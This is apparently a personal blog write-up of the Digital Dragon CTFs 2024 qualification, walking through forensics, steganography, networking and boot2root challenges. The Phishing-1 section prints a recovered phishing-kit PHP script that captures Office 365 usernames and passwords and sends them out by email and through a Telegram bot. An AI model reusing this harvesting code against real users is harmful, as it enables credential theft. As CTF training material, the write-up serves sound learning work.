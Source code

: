 ```yaml
---
layout: post
title:  "Digital Dragon CTFs"
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "Digitals Dragon CTFs 2024 Qualification"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
comments: true
---
```

# Digital Dragon CTFs
## Solved by Raviel 
### Misc
#### Phising-1
![image](https://hackmd.io/_uploads/ryzw-bBcC.png)

The challenge gave us a link lead to a website.
![image](https://hackmd.io/_uploads/rksh-Wr9R.png)

After messing around I found that when I login with gmail its send me back to google.com

![image](https://hackmd.io/_uploads/rkMzfbrcA.png)

after checking its subfolder/path with Dirsearch I found a backup folder

![image](https://hackmd.io/_uploads/BkAcfWHcA.png)
![image](https://hackmd.io/_uploads/Syi3zZBcA.png)

Download the onedrive.zip file we got the source code of its
```
<?php

include '../email.php';

// Generate a unique session data
$data = base64_encode(time() . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . md5(uniqid(rand(), true)));
$_SESSION['data'] = $data;

// Prepare form data
$form = "**Office 365 Login Attempt**\n";
$form .= "| Username: " . $_POST['email'] . "\n";
$form .= "| Password: " . $_POST['password'] . "\n";
$form .= "| User IP: " . $_SERVER['REMOTE_ADDR'] . "\n";
$form .= "| Browser: " . $_SERVER['HTTP_USER_AGENT'] . "\n";
$form .= "| DateTime: " . date('Y-m-d H:i:s') . "\n";
$form .= "----------------------------------------\n";

// Prepare email details
$subject = "**Office 365 Login Attempt** From " . $_SERVER['REMOTE_ADDR'];
$headers = "From: Digital Dragons 2024 <your-email@example.com>\r\n";
$headers .= "MIME-Version: 1.0\r\n";
$headers .= "Content-Type: text/plain; charset=UTF-8\r\n";

// Send email to each recipient in $email array
foreach ($email as $recipient) {
    mail($recipient, $subject, $form, $headers);
}

// Send form data to Telegram
$data = [
    'chat_id' => $telegramID,
    'text' => $form
];
$response = file_get_contents("https://api.telegram.org/bot$telegramTOKEN/sendMessage?" . http_build_query($data));

// Redirect or display success message after processing
header(""); // Replace with your success page URL
exit();

?>

```
we can see that its send victim information back through a telegram bot using API token 

![image](https://hackmd.io/_uploads/rykuXWScC.png)

checking the token we got the flag in email.php

![image](https://hackmd.io/_uploads/Hyjj7-S5C.png)

**flag{227de24c5e70d582e1cfecb1c57105ff}**

---

### Forensics
#### Forensics-101

![453575658_784816443731120_1615205164487708797_n](https://hackmd.io/_uploads/SJAs4-BqC.png)

The challenge gave us a execute file but its seem not to be a right extension or format checking with file in Linux we see that its a PNG image so just change the extension back and got the flag

![image](https://hackmd.io/_uploads/HyJxHWr9A.png)

**Flag: flag{6203b09fa1b624c6aa627d6108544686}**

#### Log flood
![image](https://hackmd.io/_uploads/HJB6BWS9A.png)

The chall gave us a iso file extract it has alots of folder and log file 
![image](https://hackmd.io/_uploads/SyZO8WB9C.png)

the best way to solve this is to unzip it all then strings and grep or you can read it but it will be enourmous of text.

![image](https://hackmd.io/_uploads/BJFaw-r9C.png)
![image](https://hackmd.io/_uploads/B1pXOWBqC.png)

You will see a suspicious Base64 string decode it and got the flag
**Flag: flag{ab0d215c26354bfe02302c3beac879bf}**

#### Email
**SORRY I DONT HAVE THE CHALLENGE DESCRIPTION FOR THIS 'CAUSE I DIDN'T CAPTURE IT WHEN SOLVING AND THE WEBSITE ALREADY CLOSED**
![GR_yJ9QXsAA8L5R](https://hackmd.io/_uploads/B1eNYZBqC.png)

The challenge gave us a EML file, so I will open it with thunderbird

![image](https://hackmd.io/_uploads/HJR2F-H5R.png)

After messing around with the pdf file, its a corrupted file or its may be full of garbages inside

![image](https://hackmd.io/_uploads/rkpu5bBc0.png)

but do you remember the flag base64 encoded? its "ZmxhZw" do you see its familiar? its the picture right at the end of the EML file

![image](https://hackmd.io/_uploads/BJzAqWB50.png)
![image](https://hackmd.io/_uploads/B1VWj-H90.png)

**Flag: flag{743cd9316bb1ded417574643e3839737}**

---

### Stegnography

#### Steg-basic

![image](https://hackmd.io/_uploads/rJHOsWB9R.png)
![basic-steg](https://hackmd.io/_uploads/Hy4Zh-Bq0.jpg)

The challenge gave us a jpg picture, string it and got the flag

![image](https://hackmd.io/_uploads/HJLBn-B5A.png)

**Flag: flag{b666cd2bbfe773ea854948d9b77953ac}**

#### Steg-revised
![image](https://hackmd.io/_uploads/BywlaWBcR.png)

The challenge gave us a wav file and hint that its relate to LSB so I will check the file with Silenteye tool 

![image](https://hackmd.io/_uploads/Ski2aZB5A.png)

It return nothing I will have to write a script to decrypt it
```
import wave

song = wave.open("stego_audio_LSB.wav", mode='rb')
frame_bytes = bytearray(list(song.readframes(song.getnframes())))

# Extract the LSB of each byte
extracted = [frame_bytes[i] & 1 for i in range(len(frame_bytes))]
# Convert byte array back to string
string = "".join(chr(int("".join(map(str,extracted[i:i+8])),2)) for i in range(0,len(extracted),8))
decoded = string.split("###")[0]


print("decoded: "+decoded)
song.close()
```
![image](https://hackmd.io/_uploads/rkCd0bS5C.png)

**Flag: flag{464cb8f40278b7aafc98d931e50a5021}**

---

### Networking
#### D1 Accidental Breach

![image](https://hackmd.io/_uploads/rJJa0bHcC.png)

The challenge gave us a pcap file its contain 270 packets 

![image](https://hackmd.io/_uploads/r1EHyfScC.png)

going through the stream eventually you will find a conversation kinda suspicious 

![image](https://hackmd.io/_uploads/B11q1zS5R.png)
![image](https://hackmd.io/_uploads/SJBpkfr5C.png)

**Flag: flag{f88e05cbd53f00f6090be0e153680b2e}**

->***I wont be writting the first challenge cause its just ask what is "IoC" mean lmao***<-

---
### Boot2Root
#### BRT-1
**AGAIN IM SORRY BECAUSE I DON'T HAVE THE CHALLENGE DESCRIPTION**
The challenge gave us a ova file, open it in Vmware you can boot up a Vmware but there's no password and account, there 2 ways to solve this challenge.
![image](https://hackmd.io/_uploads/S1RNGMSqC.png)

First is we have to climb Root but in this case because the challenge gave us the whole VM so there is a Forensics way to solve it by using FTK imager.

![image](https://hackmd.io/_uploads/B1V3GGr5C.png)

add the vmdk file as image evidence and there we go

![image](https://hackmd.io/_uploads/Hkf1QzS5A.png)

Dig a little bit deeper and you will find the flag

![image](https://hackmd.io/_uploads/S1LWmMBcA.png)

**Flag: flag{2991c9c5a7e497203de318897dbf1970}**
**By the way, shout-out to AnhShidou for this unintended solve**

![image](https://hackmd.io/_uploads/rksRNMHcA.png)


**Thanks for reading (')>**


